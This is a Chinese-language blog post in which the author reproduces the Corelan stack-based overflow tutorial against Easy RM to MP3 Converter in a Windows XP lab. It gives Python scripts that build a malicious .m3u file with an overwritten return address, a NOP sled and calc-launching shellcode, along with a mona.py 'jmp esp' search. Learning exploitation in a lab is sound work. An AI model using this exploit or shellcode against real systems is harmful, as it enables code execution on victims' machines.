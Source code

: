 ```yaml
---
title: Pwn 学习：Stack Based Overflows 实战
date: 2023-01-13 01:17:00
tags: CTF
---
```


自己第一次学汇编是一年多以前了，逆向也搞过不少，但是 pwn 一直没尝试过。越狱 iPhone 时看了看那些漏洞的 POC 第一眼就觉得好高深啊，这起码得学完操作系统以后再说了。然而逆 iOS App 的时候学 arm 汇编看的[这篇文章](https://azeria-labs.com/writing-arm-assembly-part-1/)写了这段话：

> Just think about the great tutorials on Intel x86 Exploit writing by [Fuzzy Security](https://www.fuzzysecurity.com/tutorials/expDev/1.html) or the [Corelan Team](https://www.corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-1-stack-based-overflows/) – Guidelines like these help people interested in this specific area to get practical knowledge and the inspiration to learn beyond what is covered in those tutorials.

Well... Why not try it out? 于是就开始看。Fuzzy 的看上去有点晦涩，所以就跟着 Corelan 的走了。难易程度可以说还挺适合我。感觉 prerequisite 基本上就是学过 C 以及了解过汇编（反正遇到不会的查就得了），会某种脚本语言的话就更方便。

下面基本上记录一下我自己的复现过程。

首先准备环境。我的环境：

- `en_windows_xp_professional_with_service_pack_3_x86_cd_vl_x14-73974` 在 VMware 虚拟机里跑的。
- `ImmunityDebugger_1_85_setup` [Immunity Debugger](https://www.immunityinc.com/products/debugger/)
- `707414955696c57b71c7f160c720bed5-EasyRMtoMP3Converter` [exploit-db](https://www.exploit-db.com/exploits/10619) 下载
- `mona.py` [右键另存为下载](https://github.com/corelan/mona/raw/master/mona.py)
- `devcpp-4.9.9.2_setup` [SourceForge 下载](https://sourceforge.net/projects/dev-cpp/files/Binaries/Dev-C%2B%2B%204.9.9.2/devcpp-4.9.9.2_setup.exe/download)（惊叹，这玩意真小啊）

第一步是简单验证一下漏洞，原文用 perl 写文件，因为装 Immunity Debugger 时自动装了 Python 2.7.1 所以我就直接写 Python 了。

```python
f = open('crash.m3u', 'w')
f.write('A'*30000)
f.close()
```

装好 `EasyRMtoMP3Converter` 后导入发现直接崩溃。

然后第二步是写个小 demo 演示漏洞原理，代码

```c++
void vulnerable_func(char *buffer) {
     char canoverflow[128];
     strcpy(canoverflow, buffer);
}

int main(int argc, char **argv) {
     vulnerable_func(argv[1]);
}
```

编译完成后打开 Immunity Debugger 然后打开 exe 并且 arguments 随便填个 `AAAAAA`。进去以后单步调试观察函数调用和 strcpy 的作用。

这里有个小知识盲区，`MOV DWORD PTR SS:[ESP],EAX` 这个 `SS` 是啥意思？有的地方写的是 `DS`。于是搜了一通：[What does "DS:40207A" mean in assembly?](https://stackoverflow.com/questions/3819699/what-does-ds40207a-mean-in-assembly) 然后又找了一下 [What does `dword ptr` mean?](https://stackoverflow.com/questions/2987876/what-does-dword-ptr-mean)

第三步是把 debugger 挂到要研究的程序上观察崩溃原因。直接打开程序然后 attach 即可。

后面要找 offset 我比较直接地在栈内存那个窗口找的字符串起点……然后减一下得到 offset. 但是很奇怪的是算的不是很准而且比正确的大 10000 左右。我找的是 `0xFF730 - 0xF6E55 = 35035`. 后面二分找了一下最后结果是 26059.

```python
f = open('crash.m3u', 'w')
f.write('A'*26059+'B'*4+'XXXX'+'1ABCDEFGHIJKLMNOPQRSTUVWXYZ')
f.close()
```

后面跟着文章做了一次不成功的尝试，但是当时我其实 eip 覆盖的都是错的，因为没有写成小端……

```python
f = open('crash.m3u', 'w')
f.write('A'*26059+'\x30\xf7\x0f\x00'+'\x90'*25+'\xcc'+'\x90'*25)
f.close()
```

第四步是从加载的 DLL 里找 `jmp esp` 这个指令，绕过地址中有 `\x00` 导致字符串中间有 terminator 的问题。我用的是 [mona.py](https://www.corelan.be/index.php/2011/07/14/mona-py-the-manual/)（继承了 pvefindaddr）简单看了一下文档，下载放入 PyCommands 然后 DLL 加载完成后在 Immunity Debugger 底部文本框输入

```
!mona find -type bin -s ffe4
```

查找出的结果在 `C:\Program Files\Immunity Inc\Immunity Debugger\find.txt`. 打开后搜索 `MSRMCcodec02.dll` 发现这行

```
0x01acb22a (b+0x0022b22a)  : ffe4 |  {PAGE_READWRITE} [MSRMCcodec02.dll] ASLR: False, Rebase: True, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Easy RM to MP3 Converter\MSRMCcodec02.dll)
```

最后用了文中构造好的 shellcode 成功打开计算器

```python
f = open('crash.m3u', 'w')
shellcode = "\xdb\xc0\x31\xc9\xbf\x7c\x16\x70\xcc\xd9\x74\x24\xf4\xb1" + \
"\x1e\x58\x31\x78\x18\x83\xe8\xfc\x03\x78\x68\xf4\x85\x30" + \
"\x78\xbc\x65\xc9\x78\xb6\x23\xf5\xf3\xb4\xae\x7d\x02\xaa" + \
"\x3a\x32\x1c\xbf\x62\xed\x1d\x54\xd5\x66\x29\x21\xe7\x96" + \
"\x60\xf5\x71\xca\x06\x35\xf5\x14\xc7\x7c\xfb\x1b\x05\x6b" + \
"\xf0\x27\xdd\x48\xfd\x22\x38\x1b\xa2\xe8\xc3\xf7\x3b\x7a" + \
"\xcf\x4c\x4f\x23\xd3\x53\xa4\x57\xf7\xd8\x3b\x83\x8e\x83" + \
"\x1f\x57\x53\x64\x51\xa1\x33\xcd\xf5\xc6\xf5\xc1\x7e\x98" + \
"\xf5\xaa\xf1\x05\xa8\x26\x99\x3d\x3b\xc0\xd9\xfe\x51\x61" + \
"\xb6\x0e\x2f\x85\x19\x87\xb7\x78\x2f\x59\x90\x7b\xd7\x05" + \
"\x7f\xe8\x7b\xca"
f.write('A'*26059+'\x2a\xb2\xac\x01'+'\x90'*25+shellcode+'\x90'*25)
f.close()
```

后面发现不挂载 Immunity Debugger 时打开不起作用，重启然后又试了几次就好了。

最后放张成果图。

![Windows XP Professional x86-2023-01-13-01-08-36.png](https://s2.loli.net/2023/01/13/cUPWw346ReZdyI7.png)
